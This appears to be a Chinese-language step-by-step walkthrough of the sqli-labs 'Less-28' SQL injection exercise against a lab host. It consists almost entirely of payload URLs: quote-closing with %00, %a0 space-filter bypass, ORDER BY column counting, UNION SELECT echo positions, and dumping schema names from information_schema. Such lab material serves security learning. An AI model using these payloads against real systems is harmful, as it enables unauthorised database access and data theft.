

# Less-28_03
1. http://47.100.118.240:8888/Less-28/?id=1 显示正常
2. http://47.100.118.240:8888/Less-28/?id=1’ 此时显示不正常，说明可能存在注入漏洞
3. http://47.100.118.240:8888/Less-28/?id=1‘)   ;%00 通过我们添加的代码可以将单引号进行补全。
4. http://47.100.118.240:8888/Less-28/?id=1‘)  %a0 order  %a0  by %a0  3 ;%00 通过order by 和%a0组合得到一共有三列
5. http://47.100.118.240:8888/Less-28/?id=1111‘)  %a0 union   %a0  select  %a0  1,2,3 ;%00 此时可以得到回显位。
6. http://47.100.118.240:8888/Less-28/?id=1111‘)  %a0 union   %a0  select  %a0  1,2,group_concat(schema_name) %a0  from  %a0   information_schema.schemata  ;%00 获得所有的库，与less-27基本相同。
7. http://47.100.118.240:8888/Less-28/?id=111‘)  %a0   union %a0   select %a0  1,2,3    ||  (’1‘) = (‘1  我们也可以使用or来闭合，这种是不使用;%00的情况。